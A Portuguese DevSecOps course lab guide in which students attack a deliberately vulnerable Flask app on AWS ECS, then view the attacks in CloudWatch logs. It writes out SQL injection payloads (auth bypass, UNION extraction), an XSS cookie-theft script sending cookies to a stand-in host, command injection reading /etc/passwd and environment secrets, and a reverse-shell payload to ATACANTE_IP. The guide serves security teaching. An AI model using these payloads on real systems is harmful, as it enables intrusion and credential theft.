

# 🎬 Vídeo 1.3 - Exploração de Vulnerabilidades no Pipeline

**Aula**: 1 - Pipeline CI/CD Seguro  
**Vídeo**: 1.3  
**Temas**: Simulação de ataques; SQL Injection; XSS; Command Injection; Impacto no pipeline

---

## 🚀 Sobre Este Hands-on

> **⚠️ AVISO**: Este laboratório demonstra técnicas de ataque para fins **educacionais**. Use apenas em ambientes controlados!

### O que você vai fazer:

| Etapa | Descrição |
|-------|-----------|
| **Acessar** | Conectar na aplicação vulnerável rodando no ECS |
| **Atacar** | Explorar SQL Injection, XSS e Command Injection |
| **Analisar** | Entender o impacto de cada vulnerabilidade |
| **Observar** | Ver os logs de ataque no CloudWatch |

---

## 🌐 Parte 1: Acessar a Aplicação no ECS

> 💡 A aplicação já está rodando no ECS (deployada no Vídeo 1.2). Vamos usá-la para os testes de vulnerabilidade!

### Passo 1: Obter o IP Público da Aplicação

**Opção A - Via Console AWS:**
1. Acesse **AWS Console** > **ECS** > **Clusters**
2. Clique em `devsecops-cluster`
3. Na aba **Tasks**, clique na task em execução
4. Copie o **Public IP**

**Opção B - Via CLI:**
```bash
# Obter o ARN da task
TASK_ARN=$(aws ecs list-tasks --cluster devsecops-cluster --query 'taskArns[0]' --output text)

# Obter detalhes da task (incluindo ENI)
ENI_ID=$(aws ecs describe-tasks --cluster devsecops-cluster --tasks $TASK_ARN \
  --query 'tasks[0].attachments[0].details[?name==`networkInterfaceId`].value' --output text)

# Obter IP público
aws ec2 describe-network-interfaces --network-interface-ids $ENI_ID \
  --query 'NetworkInterfaces[0].Association.PublicIp' --output text
```

---

### Passo 2: Configurar Variável de Ambiente

```bash
# Substitua pelo IP obtido no passo anterior
export APP_URL="http://<SEU_IP_PUBLICO>:5000"

# Testar conexão
curl $APP_URL
```

**Resultado esperado:**
```json
{
  "app": "DevSecOps Lab",
  "version": "1.0.0",
  "status": "running",
  "endpoints": ["GET /health", "GET /users", "GET /user?id=1", "GET /search?q=termo", "POST /login"]
}
```

> ⚠️ **Nota**: Se preferir testar localmente, veja a seção **Apêndice A** no final deste documento.

---

### Passo 3: Explorar os Endpoints Legítimos

```bash
# Listar usuários
curl $APP_URL/users

# Buscar usuário específico
curl "$APP_URL/user?id=1"

# Fazer busca
curl "$APP_URL/search?q=teste"
```

**Resultado esperado (`/users`):**
```json
[
  {"id": 1, "username": "admin", "email": "admin@example.com"},
  {"id": 2, "username": "user", "email": "user@example.com"}
]
```

**Resultado esperado (`/user?id=1`):**
```json
{
  "id": 1,
  "username": "admin",
  "email": "admin@example.com",
  "password": "admin123"  ← ⚠️ SENHA JÁ EXPOSTA!
}
```

> 📝 **Primeira vulnerabilidade**: O endpoint `/user?id=1` já retorna a senha em texto puro! Isso é um problema grave mesmo sem SQL Injection. Agora vamos ver como extrair TODOS os dados...

---

## 💉 Parte 2: Ataque - SQL Injection

### Passo 4: Entender a Vulnerabilidade

**Código vulnerável** (`app.py` linha 86):
```python
query = f"SELECT * FROM users WHERE id = {user_id}"
```

O input do usuário vai **direto** na query SQL sem validação!

---

### Passo 5: Explorar SQL Injection - Vazamento de Dados

**Ataque 1 - Retornar todos os usuários:**
```bash
# O "1 OR 1=1" faz a condição ser sempre verdadeira
curl "$APP_URL/user?id=1%20OR%201=1"
```

**Resultado:**
```json
{
  "id": 1,
  "username": "admin", 
  "email": "admin@example.com",
  "password": "admin123"  ← 💀 SENHA EXPOSTA!
}
```

> ⚠️ **Impacto**: A query virou `SELECT * FROM users WHERE id = 1 OR 1=1`, retornando o primeiro usuário COM a senha!

---

### Passo 6: SQL Injection - Extrair Todas as Senhas

**Ataque 2 - UNION para combinar queries:**
```bash
# Usar UNION para juntar resultados de outra query
curl "$APP_URL/user?id=0%20UNION%20SELECT%201,username,email,password%20FROM%20users--"
```

**Resultado:**
```json
{
  "id": 1,
  "username": "admin",
  "email": "admin@example.com", 
  "password": "admin123"
}
```

---

### Passo 7: SQL Injection no Login (Bypass de Autenticação)

**Código vulnerável** (`app.py` linha 143):
```python
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
```

**Ataque - Login sem saber a senha:**
```bash
# O ' OR '1'='1 fecha a string e adiciona condição sempre verdadeira
curl -X POST $APP_URL/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' OR '\''1'\''='\''1", "password": "qualquercoisa"}'
```

**Alternativa mais simples (comentário SQL):**
```bash
curl -X POST $APP_URL/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\''--", "password": "nao_importa"}'
```

**Resultado:**
```json
{
  "message": "Login successful",
  "user": {"id": 1, "username": "admin", "email": "admin@example.com", "password": "admin123"}
}
```

> 💀 **Impacto**: Conseguimos logar como admin **sem saber a senha**!

---

## 🎭 Parte 3: Ataque - Cross-Site Scripting (XSS)

### Passo 8: Entender a Vulnerabilidade

**Código vulnerável** (`app.py` linha 108):
```python
html = f"<h1>Resultados para: {query}</h1>"
```

O input do usuário vai **direto** no HTML sem sanitização!

---

### Passo 9: Explorar XSS

**Ataque 1 - Alert básico:**

Abra no **browser** (substitua `<SEU_IP_PUBLICO>` pelo IP do ECS):
```
http://<SEU_IP_PUBLICO>:5000/search?q=<script>alert('XSS!')</script>
```

**Resultado**: Um popup aparece com "XSS!" ← O JavaScript foi executado!

---

### Passo 10: XSS - Roubo de Cookies

**Ataque 2 - Capturar dados do usuário:**

```
http://<SEU_IP_PUBLICO>:5000/search?q=<script>document.location='http://atacante.com/roubar?cookie='+document.cookie</script>
```

> 💀 **Impacto em produção**: 
> - Roubo de sessão do usuário
> - Redirecionamento para phishing
> - Keylogger no formulário de login

---

### Passo 11: XSS - Defacement

**Ataque 3 - Modificar a página:**

```
http://<SEU_IP_PUBLICO>:5000/search?q=<h1 style='color:red'>SITE HACKEADO!</h1>
```

---

## 🖥️ Parte 4: Ataque - Command Injection

### Passo 12: Entender a Vulnerabilidade

**Código vulnerável** (`app.py` linha 124):
```python
result = subprocess.check_output(f'ping -c 1 {host}', shell=True)
```

O input vai **direto** para o shell do sistema!

---

### Passo 13: Explorar Command Injection

**Ataque 1 - Executar comandos do sistema:**
```bash
# O ; permite executar outro comando após o ping
curl "$APP_URL/ping?host=localhost;id"
```

**Resultado:**
```
PING localhost (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.044 ms
uid=0(root) gid=0(root) groups=0(root)  ← 💀 RODANDO COMO ROOT!
```

---

### Passo 14: Command Injection - Ler Arquivos Sensíveis

**Ataque 2 - Ler arquivo de senhas:**
```bash
curl "$APP_URL/ping?host=localhost;cat%20/etc/passwd"
```

**Ataque 3 - Listar variáveis de ambiente (PERIGOSO!):**
```bash
curl "$APP_URL/ping?host=localhost;env"
```

> 💀 **Impacto**: Se houver `AWS_ACCESS_KEY_ID` nas env vars, o atacante tem acesso à AWS!

---

### Passo 15: Command Injection - Reverse Shell

**Ataque 4 - Acesso total ao servidor (demonstração):**
```bash
# Em um terminal, escute na porta 4444:
# nc -lvp 4444

# Payload de reverse shell (NÃO EXECUTE EM PRODUÇÃO):
# curl "$APP_URL/ping?host=localhost;nc%20-e%20/bin/sh%20ATACANTE_IP%204444"
```

> ⚠️ Este ataque daria **acesso completo** ao container/servidor!

---

## 🔑 Parte 5: Impacto no Pipeline e AWS

### Passo 16: Ver os Ataques nos Logs do CloudWatch

> 💡 Uma das vantagens de testar no ECS é ver como os ataques aparecem nos logs reais da AWS!

**Via Console AWS:**
1. Acesse **CloudWatch** > **Log groups**
2. Procure por `/ecs/devsecops-app`
3. Clique no log stream mais recente
4. Observe os logs dos ataques!

**Via CLI:**
```bash
# Listar log streams
aws logs describe-log-streams \
  --log-group-name /ecs/devsecops-app \
  --order-by LastEventTime \
  --descending \
  --limit 1

# Ver últimos logs (substitua LOG_STREAM_NAME)
aws logs get-log-events \
  --log-group-name /ecs/devsecops-app \
  --log-stream-name <LOG_STREAM_NAME> \
  --limit 50
```

**Resultado esperado:**
```
Login attempt: username=admin, password=admin123  ← 💀 SENHA NO LOG!
Query: SELECT * FROM users WHERE id = 1 OR 1=1   ← 💀 SQL INJECTION!
```

> **Impacto**: Qualquer pessoa com acesso aos logs do CloudWatch vê as senhas e os padrões de ataque!

---

### Passo 17: Cenário de Ataque Real ao Pipeline



**Quanto custa?**
- Crypto mining: **$10.000+/dia** em instâncias EC2
- Multa LGPD por vazamento: **2% do faturamento** (até R$50M)
- Dano reputacional: **incalculável**

---

### Passo 18: Por Que o Pipeline Atual é Inseguro

| Problema | Onde Está | Consequência |
|----------|-----------|--------------|
| SQL Injection | `app.py` | Vazamento de dados |
| XSS | `app.py` | Roubo de sessão |
| Command Injection | `app.py` | Execução remota |
| Debug Mode | `app.py` | Stack traces expostos |
| Root no container | `Dockerfile` | Escalação de privilégios |
| Secrets em env vars | GitHub Actions | Credenciais expostas |

---

## 🧹 Parte 6: Limpeza

### Passo 19: Manter o ECS Rodando

> 💡 **Não é necessário limpar nada!** O ECS continua rodando para as próximas aulas.

Se quiser parar temporariamente para economizar custos:
```bash
# Reduzir para 0 tasks (para o serviço sem deletar)
aws ecs update-service \
  --cluster devsecops-cluster \
  --service devsecops-service \
  --desired-count 0

# Para voltar a rodar:
aws ecs update-service \
  --cluster devsecops-cluster \
  --service devsecops-service \
  --desired-count 1
```

---

## 🛣️ Próximas Aulas: Como Vamos Resolver

| Aula | Ferramenta | Vulnerabilidade que Detecta |
|------|------------|----------------------------|
| 02 | **Gitleaks** | Secrets hardcoded no código |
| 03 | **Horusec/Semgrep** | SQL Injection, XSS, Command Injection |
| 03 | **Trivy SCA** | CVEs em dependências |
| 04 | **Hadolint** | Container rodando como root |
| 04 | **Trivy Image** | Vulnerabilidades na imagem base |
| 05 | **OWASP ZAP** | Testa ataques automaticamente |

---

## ✅ Checkpoint

Ao final deste vídeo você deve ter:

- [ ] Executado SQL Injection e extraído senhas
- [ ] Executado XSS e visto JavaScript rodar
- [ ] Executado Command Injection e lido arquivos do sistema
- [ ] Entendido como essas falhas permitem acesso à AWS
- [ ] Compreendido a importância de ferramentas de segurança no pipeline

---

## 📖 Leitura Complementar

- [OWASP Top 10 2021](https://owasp.org/Top10/)
- [PortSwigger SQL Injection](https://portswigger.net/web-security/sql-injection)
- [HackTricks Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

---

**FIM DO VÍDEO 1.3** ✅

---

## 📎 Apêndice A: Execução Local (Opcional)

> Use esta opção caso o ECS não esteja disponível ou prefira testar localmente.

### Subir a Aplicação Localmente

**Linux/Mac:**
```bash
cd ~/fiap-devsecops/fiap-dclt-devsecops-aula01

# Build para arquitetura amd64 (compatível com ECS)
docker build --platform linux/amd64 -t devsecops-app:vuln .

# Rodar o container
docker run -d -p 5000:5000 --name app-vulneravel devsecops-app:vuln

# Configurar variável
export APP_URL="http://localhost:5000"

# Verificar
curl $APP_URL
```

**Windows (PowerShell):**
```powershell
cd ~\projetos\fiap-dclt-devsecops-aula01

# Build para arquitetura amd64 (compatível com ECS)
docker build --platform linux/amd64 -t devsecops-app:vuln .

# Rodar o container
docker run -d -p 5000:5000 --name app-vulneravel devsecops-app:vuln

# Configurar variável
$env:APP_URL = "http://localhost:5000"

# Verificar
Invoke-WebRequest $env:APP_URL | Select-Object -ExpandProperty Content
```

### Limpeza Local

```bash
# Parar e remover o container
docker stop app-vulneravel
docker rm app-vulneravel

# Remover imagem de teste
docker rmi devsecops-app:vuln
```
